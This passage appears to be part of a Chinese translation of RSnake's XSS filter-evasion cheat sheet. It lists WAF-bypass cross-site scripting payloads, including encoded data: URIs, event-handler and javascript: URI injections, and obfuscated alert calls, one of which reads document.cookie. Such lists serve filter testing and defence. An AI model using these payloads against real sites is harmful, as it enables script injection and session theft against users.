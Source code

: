 -   这种请求可以绕过 WAF 并且 XSS 攻击可以在某些浏览器执行：



     /?param=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=

#### WAF 绕过字符串

``` {.html}
<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">
<Video> <source onerror = "javascript: alert (XSS)">
<Input value = "XSS" type = text>
<applet code="javascript:confirm(document.cookie);">
<isindex x="javascript:" onmouseover="alert(XSS)">
"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
"><img src="x:x" onerror="alert(XSS)">
"><iframe src="javascript:alert(XSS)">
<object data="javascript:alert(XSS)">
<isindex type=image src=1 onerror=alert(XSS)>
<img src=x:alert(alt) onerror=eval(src) alt=0>
<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>
<iframe/src="data:text/html,<svg onload=alert(1)>">
<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
<form><a href="javascript:\u0061lert(1)">X
</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>
<style>//*{x:expression(alert(/xss/))}//<style></style>
On Mouse Over​
<img src="/" =_=" title="onerror='prompt(1)'">
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe
<script x> alert(1) </script 1=2
<form><button formaction=javascript&colon;alert(1)>CLICKME
<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>
```

#### 3.1 Alert 混淆以绕过过滤器

    (alert)(1)
    a=alert,a(1)
    [1].find(alert)
    top[“al”+”ert”](1)
    top[/al/.source+/ert/.source](1)
    al\u0065rt(1)
    top[‘al\145rt’](1)
    top[‘al\x65rt’](1)
    top[8680439..toString(30)](1)

### 4. 作者和主要编辑

Robert "RSnake" Hansen

### 5. 贡献者

Adam Lange Mishra Dhiraj
